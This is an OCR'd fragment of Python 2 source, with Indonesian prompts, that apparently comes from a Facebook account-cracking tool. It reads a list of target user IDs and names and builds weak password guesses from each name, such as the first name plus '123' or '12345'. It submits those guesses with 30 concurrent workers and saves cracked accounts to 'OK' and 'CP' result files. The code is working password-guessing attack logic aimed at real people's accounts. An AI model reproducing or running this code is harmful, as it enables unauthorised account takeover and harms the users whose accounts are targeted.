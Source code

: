         elif yan in ('3', '03'):

            print '\n [%s+%s] hasil OK disimpan ke -> results/OK-%s-%s-%s.txt'%(O,N,ha, op, ta)

            print ' [%s+%s] hasil CP disimpan ke -> results/CP-%s-%s-%s.txt'%(O,N,ha, op, ta)

            print '\n [%s!%s] anda bisa mematikan data selular untuk menjeda proses crack\n'%(M,N)

            with YayanGanteng(max_workers=30) as (__yayanXD__):

             for yntkts in self.id: # Yo Ndak Tau Kok Tanya Saia

                    try:

                        name, uid = yntkts.split('<=>')

                        xz = name.split(' ')

                        if len(xz) == 3 or len(xz) == 4 or len(xz) == 5 or len(xz) == 6:

                            pwx = [name, xz[0]+"123", xz[0]+"12345"]

                        else:

                            pwx = [name, xz[0]+"123", xz[0]+"12345"]

                        __yayanXD__.submit(self.__mfb__, uid, pwx)

                    except:

                        pass

            os.remove(self.apk)

            hasil(ok,cp)

        else:

            print '\n %s[%s×%s] input yang bener'%(N,M,N);self.__pler__()

if __name__ == '__main__':

    os.system('git pull')

    moch_yayan()
